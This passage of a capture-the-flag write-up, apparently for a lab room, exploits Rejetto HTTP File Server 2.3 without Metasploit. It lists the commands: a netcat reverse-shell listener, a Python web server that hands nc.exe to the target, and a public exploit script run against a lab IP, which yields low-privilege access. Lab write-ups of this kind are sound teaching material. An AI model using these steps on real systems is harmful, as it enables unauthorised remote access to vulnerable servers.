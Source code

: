 > Now let's complete the room without the use of Metasploit.
> 
> For this we will utilise powershell and winPEAS to enumerate the system and collect the relevant information to escalate to.


#### 1. Save Script

To resolve the challenge without metasploit we use a [python script](https://github.com/am0nsec/exploit/blob/master/windows/http/RejettoHTTPFileServer-2.3/rejetto_hfs.py) founded by searching **httpfileserver httpd 2.3 exploit github** on Google.

Before to use the script, we must modify some value:
```
ip_addr = "10.8.80.159" #local IP address
local_port = "443" # Local Port number
```

Then, we start a listener:
```
sudo nc -lnvp 443
```

And we copy the **nc.exe** in a folder and we start a python server (**N.B** The python server must start in the same folder in which we copy the tool nc.exe because the script will upload the tool):

```
sudo python -m SimpleHTTPServer 80
```

Finally we start the script:
```
python 39161.py 10.10.26.74 8080
```

and we see that output in the python script:
![Script Upload nc.exe](/assets/img/posts/steel-mountain/upload_nc.png)

and, also, we get the access in the listener:
![Script Access](/assets/img/posts/steel-mountain/script_access.png)

But we are a low-privilege user. 
